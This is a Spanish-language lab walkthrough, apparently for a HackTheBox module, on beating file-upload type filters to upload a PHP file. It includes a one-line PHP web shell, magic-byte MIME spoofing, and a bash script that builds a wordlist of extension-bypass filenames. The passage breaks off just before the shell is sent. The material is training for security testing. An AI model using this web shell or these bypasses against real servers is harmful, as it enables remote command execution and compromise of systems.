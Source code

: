 # Type Filters
<br>
 The above server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to ensure the uploaded file is an image. 
 Try to combine all of the attacks you learned so far to bypass these filters and upload a PHP file and read the flag at "/flag.txt"

 `Hint`: Start with a request that can be uploaded (e.g. jpg image), then try to find an allowed PHP extension that doesn't get blocked,
 then utilize one of the whitelist filter bypasses to bypass both extension filters.

 ---
- Test payload:
  ```php
  <?php echo "Hello HTB"; ?>
  ```
- Basic web shell:
  ```php
  <?php system($_REQUEST['cmd']); ?>
  ```
 - Web-all-content-types wordlist: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt

- Descargamos la wordlist y filtramos sólo por content-type relacionados a imágenes:
```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/web-all-content-types.txt
cat web-all-content-types.txt | grep 'image/' > image-content-types.txt
```
Nota: `/image/jpg` no está en la lista.

- Common mime types:
  - `jpeg`: `FF D8 FF`
  - `gif`: `GIF8` (GIF87a | GIF89a)

  <br>

 ---
<br>

## Ejercicio

Hacemos fuzzing de `Content-Type` header para ver qué tipos son permitidos:
![image](https://github.com/user-attachments/assets/b6376c4b-05d7-4821-80c6-04b0901559b9)

![image](https://github.com/user-attachments/assets/287f8443-d7fc-41c0-93af-7140125607ca)

Tenemos que sólo son permitidos los siguientes tipos:
- image/gif
- image/jpeg
- image/png


De forma manual sabemos que también permite `image/jpg`.


Ahora testeamos el `file content` utilizando `magic bytes` para conocer los `MIME Types` permitidos:
![image](https://github.com/user-attachments/assets/b5d9d02b-5984-48b1-9473-bfd797379b27)
![image](https://github.com/user-attachments/assets/8acbe838-c50e-48ac-8322-5a2948e611ff)



Intentamos subir la web shell con la extensión `.php` y el servidor nos responde `Extension not allowed`:
![image](https://github.com/user-attachments/assets/290960dc-0829-456a-a84f-2c4ece59ded5)

Sabemos que tenemos blacklist and whitelist. Hacemos fuzzing de whitelist con common web extensions de Seclists, para investigar si se permite alguna extensión además de las extensiones de imágenes:
![image](https://github.com/user-attachments/assets/c1bb7c02-26fc-47f6-a32c-0a0d3bf25942)
![image](https://github.com/user-attachments/assets/05e266e9-ec3a-4658-a82a-47d273a079e2)
No hay ninguna extensión web adicional que esté incluida en la whitelist.
Sabemos que el servidor está validando extensiones a través de una blacklist, que contiene bastantes tipos de extension `.php`, en este caso, el servidor contesta con el mensaje `Extension not allowed`.
Cuando la validación se realiza a través de la whitelist, el servidor responde `Only images are allowed`.

Realizaremos un fuzzing de extensiones, con una custom wordlist que contiene distintos payloads para baypasear tanto whitelist como blacklist, utilizamos el siguiente script para realizar la wordlist:
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':' ';'; do
    for ext in '.php' '.phps' '.php2' '.php3' '.php4' '.php5' '.php6' '.php7' '.php8' '.pht' '.phar' '.phpt' '.pgif' '.phtml' '.phtm'; do
        echo "shell$char$ext.gif" >> wordlist.txt
        echo "shell$ext$char.gif" >> wordlist.txt
        echo "shell.gif$char$ext" >> wordlist.txt
        echo "shell.gif$ext$char" >> wordlist.txt
    done
done
```

![image](https://github.com/user-attachments/assets/8e44215b-30d8-4357-b1a7-6032ef7fda4b)
![image](https://github.com/user-attachments/assets/f56a7c36-09fc-456c-967e-0102b80965c6)

Vemos que varias extensiones pudieron ser subidas.
Hacemos una petición para visualizar los archivos, y realizamos fuzzing con la misma wordlist, de modo tal que probará acceder también a los archivos subidos previamente:
![image](https://github.com/user-attachments/assets/e0a031e2-14ba-46a1-a3e6-729d77720b9c)

Entre todas las que pudimos subir previamente y podemos acceder (status code 200), sólo algunas puede interpretar el código:
![image](https://github.com/user-attachments/assets/700eeee8-35d4-41d2-bfc0-7e427867bf66)

Ahora enviamos la web shell:




